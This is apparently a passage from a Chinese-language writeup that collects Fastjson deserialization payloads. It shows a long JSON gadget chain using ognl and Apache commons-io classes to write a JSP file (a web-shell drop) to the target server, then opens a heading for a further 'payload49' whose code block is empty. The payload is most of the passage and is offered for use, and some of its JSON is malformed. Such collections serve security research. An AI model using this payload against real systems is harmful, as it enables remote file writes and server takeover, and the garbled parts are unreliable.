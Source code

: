 ```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.is.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},}
```

![image-20231021212732555](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021212732555.png)

### 5.2.2 ognl+commons-io 2.7~2.8版本

`payload49`：

```json
```